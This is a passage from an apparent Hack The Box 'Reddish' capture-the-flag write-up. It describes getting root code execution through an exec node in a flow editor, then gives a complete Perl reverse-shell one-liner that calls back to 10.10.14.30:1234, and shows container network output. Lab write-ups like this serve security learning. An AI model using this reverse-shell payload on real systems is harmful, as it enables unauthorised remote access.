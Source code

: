 We need to execute it right. so I added exec in between them and connected all those wires. And hit Deploy I got a shell as root.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-reddish/Untitled%206.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-reddish/Untitled%206.png)

The shell is not stable, so I tried to get reverse from it using various payloads and only perl worked.

```bash
perl -e 'use Socket;$i="10.10.14.30";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Now I got a good shell

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-reddish/Untitled%207.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-reddish/Untitled%207.png)

The first thing I tested is IP address, because we are root so I doubted we are in docker. and Yes we are inside a container. I got 2 more IP's other than 10.10.10.95 (Box IP).

```bash
# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
11: eth1@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.3/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
13: eth0@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```
